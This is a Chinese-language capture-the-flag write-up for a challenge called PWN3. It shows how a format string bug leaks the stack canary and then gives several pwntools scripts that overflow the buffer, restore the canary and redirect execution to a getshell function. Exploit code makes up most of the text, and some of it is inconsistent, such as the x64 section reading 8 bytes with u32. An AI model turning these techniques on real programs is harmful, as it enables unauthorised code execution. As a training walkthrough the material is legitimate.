







# PWN3


需要绕过金丝雀值




看IDA发现存在格式化字符串读取漏洞




尝试读取金丝雀值

`%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`

翻车，堆栈距离太远了无法读取\x00结尾的canary



去掉点号，增大可读范围



获得金丝雀值为第35位

改为输入`%35$p`获得相应值





IDA双击buf查看地址偏移量




找到可以getshell的内存地址



获取Canary，溢出+Canary+覆盖ebp一把梭


x64

```python
#!/usr/bin/env python

from pwn import *

context.binary = './pwn3'
# context.log_level = 'debug'
io = process('./pwn3')

get_shell = 0x0804932F #ELF("./pwn3").sym["getshell"] # 这里是得到getshell函数的起始地址

io.recvuntil("your name:")

# leak Canary
payload = "A"*100 + "A" * 4 # 这里再加4个 A 是因为 100 模 8 是 4 ，如果不补齐 8 位，则无法覆盖canary后面的 \x00
io.sendline(payload) # 这里使用 sendline() 会在payload后面追加一个换行符 '\n' 对应的十六进制就是0xa

io.recvuntil("A"*104)
Canary = u32(io.recv(8))-0xa # 这里减去0xa是为了减去上面的换行符，得到真正的 Canary
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = b"\x90"*104+p32(Canary)+b"\x90"*8+p32(get_shell) # 使用getshell的函数地址覆盖原来的返回地址
io.send(payload)

io.recv()

io.interactive()

```

x86

```python
#!/usr/bin/env python

from pwn import *

context.binary = './pwn3'
# context.log_level = 'debug'
io = process('././pwn3')

get_shell = 0x0804932F #ELF("././pwn3").sym["getshell"] # 这里是得到getshell函数的起始地址

io.recvuntil("your name:")

# leak Canary
payload = "A"*100
io.sendline(payload) # 这里使用 sendline() 会在payload后面追加一个换行符 '\n' 对应的十六进制就是0xa

io.recvuntil("A"*100)
Canary = u32(int.from_bytes(io.recv(4),"little"))-0xa # 这里减去0xa是为了减去上面的换行符，得到真正的 Canary
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = b"\x90"*100+p32(Canary)+b"\x90"*12+p32(get_shell) # 使用getshell的函数地址覆盖原来的返回地址
io.send(payload)

io.recv()

io.interactive()
```

```python
# coding:utf-8
from pwn import *
context.terminal=['tmux',"splitw","-h"]
context.log_level='debug'

sh = process("./pwn3")
elf = ELF("./pwn3")
get_shell = 0x0804932F

payload1 = '%'+str(35)+'$'+'p'
sh.recvuntil("your name:")
sh.sendline(payload1)
sh.recvuntil("Hello,0x")
canary=int(sh.recv(8),16)
success("canary => "+hex(canary))
payload2 = "a"*100
payload2 += str(p32(canary))
payload2 += "b"*8+"b"*4
payload2 += str(p32(get_shell))
sh.sendline(payload2)
sh.interactive()
```

```csharp
"a" * 0x60 + "a" * 4 + p32(canary) + 'b'*8  + 'b'*4 + p32(get_shell)
```